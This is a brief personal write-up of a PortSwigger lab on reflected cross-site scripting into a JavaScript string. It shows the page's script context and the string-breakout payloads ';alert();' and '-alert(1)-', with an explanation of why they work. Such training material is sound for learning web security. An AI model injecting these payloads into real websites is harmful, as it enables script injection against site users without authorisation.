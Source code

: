 # Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

```bash
# search abc1234 and view page source and look for abc1234

<script>var searchTerms = 'abc1234';alert();'';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">'); </script>

# The script basicly creates this
<img src="/resources/images/tracker.gif?searchTerms=abc1234">
```

```bash
# We can bypass this by
';alert();'

# We basicly create this <script>var searchTerms = 'abc1234';alert();''; which will allow us to run alert.

# I had a problem with this lab, even when i use solution they give '-alert(1)-', It still looks like i didn't solve the lab.
# But they both give you alerts so you can use them.

```
